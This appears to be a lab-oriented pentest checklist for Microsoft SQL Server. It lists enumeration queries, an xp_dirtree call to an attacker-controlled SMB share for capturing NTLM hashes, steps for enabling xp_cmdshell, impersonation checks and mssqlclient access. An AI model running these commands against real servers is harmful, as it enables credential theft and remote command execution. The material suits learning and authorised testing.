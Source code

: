 ```
select @@version;
```

* [ ] Check databases

```
SELECT name FROM master.dbo.sysdatabases
```

* [ ] Check tables in database:

```
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```

* [ ] We can check user:

```
select system_user;
```

* [ ] Check as what user the db is running:

```
exec xp_dirtree "\\10.8.1.208\share"
```

Catch with responder or smbserver

* [ ] If chain try [smb-relaying.md](../active-directory/ad-exploitation/smb-relaying.md "mention")
* [ ] To get an interactive mssql shell: `mssqlclient.py user:pass@sequel.htb`
* [ ] If password present try /
* [ ] To enable xp\_cmdshell:

```
EXEC master.dbo.sp_configure 'show advanced options', 1;
RECONFIGURE;
```

or

```
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1; 
RECONFIGURE;-- 
```

* [ ] Check for impersonation:

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

Refer PG Practice- hokkaido

* [ ] To audit: `Invoke-SQLAudit -Verbose` from PowerUpSQL
  * [ ] look for privesc cheatsheat in powerupsql github

### RPC

